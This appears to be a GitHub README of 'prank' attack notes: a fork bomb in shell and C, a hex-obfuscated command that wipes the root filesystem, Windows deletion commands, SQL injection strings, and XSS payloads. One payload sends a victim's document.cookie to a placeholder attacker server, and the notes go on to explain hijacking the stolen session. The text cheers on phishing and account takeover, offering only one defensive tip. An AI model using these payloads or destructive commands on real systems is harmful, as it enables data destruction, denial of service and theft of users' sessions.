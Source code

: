 # pranks
These are my notes on bad things that can happen.  The focus here is programmatic stuff, if application security is your thing then you should check out OWASP Top 10 documentation!  [Click here for the 2017 version of that.](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
  
## Terminal Commands
For use in a terminal or a command prompt or something  
  
### Fork Bomb
A form of DOS (denial of service) attack.  
The process continually replicates itself to deplete available system resources.  
In shell, it looks like this:  
```shell
:(){ :|: & };:
```
Also possible in C like this:
```c
int main() {
    while(1)
        fork();
    return 0;
}
```
### Deletion
First off, here are some hex shenanigans:
```shell
$(echo 7375646f20726d202d7266202f202d2d6e6f2d70726573657276652d726f6f74 | xxd -r -p)
```
This is hexidecimal, but converted to ascii its:
```shell
sudo rm -rf / --no-preserve-root
```
Which will delete everything from the selected directory.  
This does the same thing in Windows (maybe):  
```shell
Format C: /q /y
```
Supposedly delete windows, but windows will probably try to stop you  
idk I never actually tested it lol
```shell
rd /s /q c:\windows
```
## Stuff for username fields and search bars
For use in the event that you suspect certain technology is being used and want to check.
### SQL Injection
May be able to return all info from users table depending on the db
```SQL
anything';SELECT * FROM users WHERE 't' = 't
```
Error based injection - sql injection to provoke an error message, hopefully revealing sensitive information like db type, etc.  
Should create a statement that's always true and note out the rest of the code with the `--` at the end.
```SQL
SELECT * FROM users WHERE id = 1 OR 1 = 1--
```
Perhaps the application is detecting that you're using a sql injection and is giving you a generic error or no error in response.  If you want to check so see if the sql injection is being processed, try adding a time delay.
```SQL
if (is_srvrolemember('sysadmin') > 0) waitfor delay '0:0:5'
```
^That's for SQLServer, use `SLEEP(seconds)` for MySQL 5
### Cross-Site Scripting
Sometimes if you enter text into a searchbox and the page displays it, it may actually be injecting your input directly into the HTML of the page.  If that's happening, you can use <script> tags to inject code into the page.  Try the below code to see if XSS is possible:
```HTML
<script>alert("You'll see this text in an alert box if so");</script>
```
If you see the above input in plaintext, the page may be putting quotes around your input.  Add a `"` or `">` to the beginning and try again.  So what's the advantage of this?  Well not only can you make a page run script, but if the page displays your search in the URL then you could write your search, take the URL, and hex the search so that you could send the link to someone and they would not see your script unless they converted the hex back to ascii.
Use this converter: https://www.rapidtables.com/convert/number/ascii-to-hex.html
```
http://www.site.com/search.php?q="><script>alert("haxorz")</script>
would instead look like this
http://www.site.com/search.php?q=22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%68%61%78%6f%72%7a%22%29%3c%2f%73%63%72%69%70%74%3e
```
This is the oldest trick in the book and is still pretty common, so if you ever recieve a link from ANYONE with a hexadecimal search query, I always recommend dropping it into a hex/ascii converter so you can inspect it just to be safe (Even if it's a website you trust).  Now simply send a million emails pretending to be someone's grandma asking how to buy a birthday present online and start stealing cookies!
### Cookie stealin
The next part of stealing cookies requires a bit more work.  First you'll need a PHP script (like the one in this repo).  Then make a file called `log.txt`.  You'll need to store the php and log files on a server (I'm not going to walk you though that part, everyone and their mom has their own server.  Ask google if you need help).  I use a Raspberry Pi for this purpose.  Your XSS injection should look something like this:
```HTML
"><script language= "JavaScript">document.location="http://yourServerIpOrDomainName.com/nameOfYourPhpScript.php?cookie=" + document.cookie;document.location="http://www.pageYouWantToExploit.com"</script>
```
This should log the cookie and then redirect the user back to the source page but if you notice this causes an infinit loop, you may need to modify it with an onclick event like this:
```HTML
"><a href="#" onclick="document.location='http://yourServerIpOrDomainName.com/yourServerIpOrDomainName.php?cookie=' +escape(document.cookie);"><Click here if you are not automatically redirected></a></script>
```
The resulting log file should look something like the one in this repo.
### What do I do with this cookie
Sometimes (on poorly made websites) your session id will be displayed in plaintext in the URL.  If that's the case, then accessing somebody else's session is as easy as replacing yours with theirs.  If that's not the case, then you could use a tool like Firebug to edit your cookie.
https://getfirebug.com/
Add or modify all your cookie's fields to match the data from the cookie in your log file and refresh the page.  Now you're logged in as your victim!  Hooray!
